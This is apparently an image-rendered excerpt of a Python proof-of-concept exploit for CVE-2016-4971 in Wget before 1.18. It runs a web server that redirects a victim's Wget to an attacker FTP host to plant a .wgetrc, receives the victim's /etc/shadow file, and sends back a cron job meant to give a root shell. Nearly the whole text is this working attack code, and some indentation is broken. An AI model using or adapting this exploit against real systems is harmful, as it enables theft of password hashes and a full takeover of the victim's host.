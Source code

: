 ```shell
sending malicious redirects to the victim wget's requests:

---[ wget-exploit.py ]---

#!/usr/bin/env python

#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971 
#

import SimpleHTTPServer
import SocketServer
import socket;

class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
   def do_GET(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
      print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()

   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob

       print "We have a volunteer requesting " + self.path + " by POST :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
      print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

       print "Sending back a cronjob script as a thank-you for the file..." 
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)

```
